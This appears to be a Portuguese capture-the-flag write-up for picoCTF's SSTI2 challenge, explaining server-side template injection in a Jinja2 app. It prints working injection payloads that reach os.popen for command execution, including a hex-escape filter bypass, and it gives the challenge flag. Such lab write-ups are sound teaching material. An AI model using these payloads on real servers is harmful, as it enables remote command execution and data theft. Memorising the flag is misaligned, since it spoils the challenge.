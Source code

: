 # 🦆 DuckWare - SSTI2

---

>	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/488  
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI2 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.

-----
## 🧩 Desafio


<center><img src= 'SSTI2 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```


----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI2 fotos/test.png' ></center>


<center><img src= 'SSTI2 fotos/49.png' ></center>  

- O retorno `49` indica que o site está **interpretando a entrada como código dentro de um template engine**.
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:

```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI2 fotos/codigo.png' ></center>  

- Esse resultado mostra que não será possível utilizar a forma literal para se encontrar a **flag**  
- Pode ser que o filtro pode bloquear os literais `__globals__`, mas não bloqueou o escape `\x5f\x5fglobals\x5f\x5f` 
-  Testando o mesmo  código com em hexadecimal

```

	{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
	
```



<center><img src= 'SSTI2 fotos/requirements.txt.png' ></center>  

-  Em seguida substituímos `ls` por `cat flag` e obtivemos o conteúdo da flag:
- Passando para hexa decimal 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

<center><img src= 'SSTI2 fotos/flag.png' ></center>  


---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade **SSTI**: o campo de entrada era avaliado pelo motor de templates, permitindo a execução de expressões. A aplicação tentou mitigar a falha bloqueando literais suspeitos (como `__globals__`), mas a proteção foi contornada ao usar escapes hexadecimais (`\x5f` → `_`) e acesso dinâmico a atributos via `attr`/`__getitem__`. Com isso foi possível importar o módulo `os` e executar `cat flag`, revelando a flag do desafio.

**Flag:** `picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}`
